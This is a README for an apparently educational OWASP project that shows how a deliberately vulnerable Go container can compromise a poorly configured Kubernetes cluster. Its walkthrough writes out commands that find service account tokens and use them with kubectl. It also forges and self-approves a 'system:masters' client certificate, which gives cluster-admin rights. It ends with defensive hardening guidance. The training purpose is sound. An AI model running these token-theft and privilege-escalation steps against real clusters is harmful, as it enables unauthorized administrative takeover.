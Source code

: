 #  Welcome!

First and foremost, Welcome! :tada::confetti_ball:

Thank you for visiting the go-rce-kubernetes project repository. :balloon::balloon::balloon:

This document (the README file) is a hub to give you some information about the project. Jump straight to one of the sections below, or just scroll down to find out more.

* [What are we doing? (And why?)](#what-are-we-doing)
* [Who are we?](#who-are-we)
* [How to use this repostory](#getting-started)
* [Get in touch](#contact-us)
* [Find out more](#general-security-guidance)


## What are we doing?

The intent of this repository is to take a closer look at some of the security pitfals that maybe encoutered when deploying containerize applications in kubernetes. This project uses poorly writen go application to demonstrate how a single vulnerable application can compromise a poorly configured kubernetes cluster. 


## Who are we?

The new OWASP waterloo chapter leads and security enthustists
* Scott Handfield
* Kristopher Jamison
* Dale Babiy
* Deepak Sharma


# Getting started

## Pre-requisites 
This project assumes you have access to a running kubernetes cluster 

## Build and run 
The following steps outline building and running the simulations: 
1. Clone the repo 
```
git clone github.com/handfields/go-rce-kubernetes
```
2. Build the vulnerable go-rce contianer (Optional - containers are also available on dockerhub)
```
cd go-rce-kubernetes && docker build . 
```
3. Deploy 
4. Exploit 
 - The go-rce applicaion takes untrusted data from users as command line arguments and 
5. Recon
 - what information can you find that might be useful for lateral movement and/or persistence in the cluster? 
 - service account tokens? 
    ```
    find / -name '*token'
    ```
 - sensitive environment variables? 
   ```
   env
   ``` 
 - explore ..
    ```
    ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server='https://kubernetes.default.svc.cluster.local' get pods
    ```

6. Elevate permissions 

Generate and sign client certificate with elevated permissions
```
curl -Lo cfssl https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssl_1.5.0_linux_amd64 && chmod 700 cfssl 
curl -Lo cfssljson https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssljson_1.5.0_linux_amd64 && chmod 700 cfssljson

cat <<EOF | ./cfssl genkey - | ./cfssljson -bare server
{
  "CN": "admin",
  "names": [
      {
        "O": "system:masters"
      }
  ],
  "key": {
    "algo": "rsa",
    "size": 2048
  }
}
EOF

cat <<EOF | ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt apply -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: nothing-to-see-here
spec:
  signerName: kubernetes.io/legacy-unknown
  request: $(cat server.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF

./kubectl certificate approve nothing-to-see-here

./kubectl get csr nothing-to-see-here -o jsonpath='{.status.certificate}' | base64 -d | tee server.crt 
```

7. Perform lateral movement

8. Add security policies 

9. Update deployment 


# General secuirty guidance 
This section introduces some general best practice guildlines for operating secure containerize workloads 

### Build secure images 
    - Use slim and minimal base images, where possible 
    - Use multi-stage builds to avoid adding unnessisary binaries, libraries, files, etc. 
    - Scan images and applications for secuirty vulernabilities 

### Ensure binary authorization
    - Restrict access to container registries and use only verified images (ie. Cryptographically signed images, OPA policies, etc. )

### Remove unnessisary capabilities 
    - Ensure securityContext is applied to ensure pods are running as non-root, with appropriate capabilities and read-only filesystems where possible.  

### Apply least privledge access 
    - Apply RBAC policy and limit access to service accounts 

### Take caution with senstive mount points
    - Avoid mounting service account tokens and 'hostpath', especially for pods that are exposed to lower environments (ie. internet facing, accessible form uat, dev, etc..)

### Segment, Segment and Segment 
    - Namespaces
        - Use namespaces to logically group workloads but do not assume namespaces provide sufficient workload isolation. 
    - Network policies
    - Service mesh 
    - Secure control plane 

### Monitor
    - Continuously scan host, images and running containers for vulnerabilities and configuration issues 
    - Ensure logs are being shipped and analyzed for security issues

### Additional guidance, helpful tools and resources 
https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html<br>
https://github.com/OWASP/Docker-Security<br>
https://www.nist.gov/publications/application-container-security-guide <br>
https://github.com/open-policy-agent/<br>
https://github.com/ManicodeSecurity/Defending-DevOps <br>
https://github.com/ksoclabs/kube-goat <br>
https://github.com/aquasecurity<br>
https://github.com/falcosecurity/falco<br>
https://github.com/cyberark/KubiScan<br>
https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/<br>
https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/<br>
https://github.com/trailofbits/audit-kubernetes/tree/master/reports<br>
